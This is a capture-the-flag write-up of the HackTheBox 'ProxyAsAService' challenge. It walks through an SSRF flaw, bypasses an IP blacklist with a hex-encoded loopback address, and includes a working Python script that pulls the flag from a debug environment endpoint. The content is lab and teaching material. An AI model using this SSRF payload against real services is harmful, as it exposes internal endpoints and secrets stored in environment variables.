

# HackTheBox — ProxyAsAService [Easy]

In this write-up, we will solve the **ProxyAsAService** challenge from HackTheBox. The goal is to analyze the web application, identify its weaknesses, and use them to gain command execution in order to retrieve the flag. Along the way, we will break down each step of the exploitation process to clearly demonstrate how the vulnerability can be discovered and leveraged.

Let’s navigate to the website.



> The website automatically redirect us to reedit
> 

Now let’s take a look at the source code.


> Notice that we found that the url is passed as a parameter to a function name **`proxy_req`**
> 

Now let’s read the source code of the **proxy_req** function


> notice that we found that the url parameter is used to call the **requests.request** function which make it vulnerable to **SSRF**
> 

Now let’s see the IP restrictions 


> Notice that there was a blacklist that block some IP Address from being called
> 

**Now what is the Idea of the challenge?**


> The idea is to make a request to the [localhost](http://localhost) to the and make a request to the endpoint **`/debug/environment`** that will print the environment variables on the machine
> 

Now why we need to call the **environment endpoint**? 


> We need to call the environment variables as the flag is stored in it
> 

Now let’s exploit the bug

```python
@0x7f000001:1337/debug/environment
```


> As we see we managed to bypass the IP Restrictions using the **Hex Encoded IP Address** and make a request to the **environment endpoint** and got the flag!
> 

Now let’s write exploit script to get the flag

```python
import requests

target = input("Please Enter target (e.g. 127.0.0.1:8080): ")

base_url = f"http://{target}/?url=@0x7f000001:1337/debug/environment"

def redirect_me():
    try:
        r = requests.get(base_url, timeout=5)
        try:
            data = r.json()
            env = data.get("Environment variables", {})
            flag = env.get("FLAG")
            if flag:
                print("[+] FLAG:", flag)
            else:
                print("[!] FLAG not found. Full response:", data)
        except ValueError:
            print("[!] Response is not JSON:\n", r.text)
    except requests.RequestException as e:
        print(f"[!] Error: {e}")

redirect_me()

```


Now let’s run the exploit script


> Amazing we managed to get the flag!
> 

🎯 Conclusion

By following the exploitation path and carefully analyzing the challenge, we were able to identify the vulnerability and successfully obtain the flag. This highlights the importance of secure coding practices and the risks of improper input handling in web applications.

*Written by **SecretRemo*** ✍️

CRTE | CRTP | CRTO | eWPTX | eCPPT | eMAPT